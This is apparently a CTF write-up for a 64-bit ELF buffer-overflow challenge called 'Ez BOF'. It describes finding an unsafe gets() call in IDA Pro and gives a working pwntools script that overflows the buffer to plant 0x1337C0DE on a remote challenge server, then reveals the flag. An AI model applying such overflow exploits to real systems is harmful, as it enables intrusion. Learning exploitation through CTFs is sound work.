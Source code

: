 # Ez BOF

> none\
> \
> Format Flag : `hackfest0x5{}`

A little endian 64-bit ELF binary file is provided, so we have to decompile it using the IDA Pro 64 version application for analysis.\
![image](https://user-images.githubusercontent.com/41176663/170178077-bc15dbb4-b570-4aab-8afe-db9df6b3fe2e.png)
\
After the analysis found the following functions:\
![image](https://user-images.githubusercontent.com/41176663/170178121-d21f9dbd-52c2-4415-b32d-e714bb65c11e.png)
\
there is a gets function which can be guaranteed to be vuln when the inputted character exceeds its limit (buffer overflow) because the buff overflow system is changing memory after the buff, so here we can use that function to exploit\
We try to test input A until it exceeds the max memory so that a SEGFAULT error appears. Let's try to exploit it\

```py
from pwn import *

exe = ELF("./chall")
# io = exe.process()
io = remote("202.125.94.123", 60901)

#target 0x1337C0DE
payload = "A" * (44)
payload += "\xDE\xC0\x37\x13"

io.sendline(payload)
io.interactive()
```
![image](https://user-images.githubusercontent.com/41176663/170178317-37e346d4-ba05-4e55-ba46-a212607d9b93.png)
\
And we got the flag `hackfest0x5{Buffer_0verflow_1s_Danger0us_Yo!!}`
